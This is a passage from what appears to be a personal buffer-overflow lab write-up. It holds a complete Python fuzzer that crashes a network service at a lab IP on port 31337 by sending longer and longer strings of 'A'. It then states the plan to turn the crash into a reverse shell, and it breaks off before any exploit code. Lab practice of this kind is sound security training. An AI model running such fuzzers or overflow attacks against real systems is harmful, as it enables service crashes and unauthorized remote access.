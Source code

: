 - We can test if we can crash it by creating a fuzzer

- The fuzzer will send increasingly long strings comprised of As. If the fuzzer crashes the server with one of the strings, the fuzzer should exit with an error message. Make a note of the largest number of bytes that were sent

- Create a python script to fuzz (fuzzing.py):

```python
#!/usr/bin/env python3

import socket
import time
import sys

ip = "192.168.0.2"
port = 31337
timeout = 5
prefix = "OVERFLOW1 "
string = prefix + "A" * 100

while True:
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.settimeout(timeout)
            s.connect((ip, port))
            s.recv(1024)

            print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
            s.send(bytes(string, "latin-1"))
            s.recv(1024)

    except:
        print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
        sys.exit(0)

    string += "A" * 100
    time.sleep(1)

```

- Run the script:

![image8](../resources/b1c8253f59204f82b6391f7753d8b88e.png)

- Crashed at **100 bytes**

**<u>Exploit (POC - On MY Windows VM):</u>**

- We know that we can crash the executable - so we might be able to do a buffer overflow and get a reverse shell
